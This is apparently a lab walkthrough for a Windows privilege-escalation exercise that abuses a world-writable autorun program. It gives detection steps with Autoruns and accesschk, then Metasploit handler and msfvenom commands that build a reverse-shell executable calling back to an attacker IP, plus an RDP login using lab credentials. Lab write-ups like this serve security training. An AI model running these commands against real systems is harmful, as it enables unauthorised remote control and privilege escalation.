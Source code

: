 # Exploit Autorun Startup Programs

Running Autoruns.exe from ![Sysinternals](https://learn.microsoft.com/en-us/sysinternals/downloads/sysinternals-suite) we can view which programs that run from the autorun registry keys or folders. This tool also provides insight into Scheduled Tasks, Services, WinLogon, DLLS, and more.

Manual detection would require looking for entries in the following two registry keys:

```bash
PS C:\Users\kamino> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

PS C:\Users\kamino> Get-Item -Path Registry::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
```

## Detection

Run Autoruns64.exe on the target system.

```bash
C:\Users\user> C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe
```

![autorun](images/autorun.png)

In Autoruns, click on the ‘`Logon`’ tab.
From the listed results, notice that the “`My Program`” entry is pointing to “C:\Program Files\Autorun Program\program.exe”.

![logon](images/logon.png)

Run `accesschk64.exe` against `My Program`

```bash
C:\Users\user> C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"
```

From the output, notice that the “`Everyone`” user group has “`FILE_ALL_ACCESS`” permission on the “program.exe” file.

![everyone](images/everyone.png)

## Exploitation

Start a multi-handler reverse shell

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfconsole -q
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.48.44
LHOST => 10.18.48.44
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.18.48.44:4444
```

Generate `msfvenom` exploit

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ msfvenom -p windows/meterpreter/reverse_tcp lhost=10.18.48.44 lport=4444 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

Serve file on Python http server
Download from IE on target

![program](images/program.png)

Replace the “autorun” file program.exe on the target

![replace](images/replace.png)

## Logoff and Log Back On System

To simulate the privilege escalation effect, logoff and then log back on as an `administrator` user.

```bash
┌──(vagrant㉿kali)-[~/Documents/THM/windowsprivescarena]
└─$ xfreerdp /v:10.10.215.72 /u:TCM /p:Hacker123 +clipboard
```

![run](images/run.png)

![shell](images/shell.png)
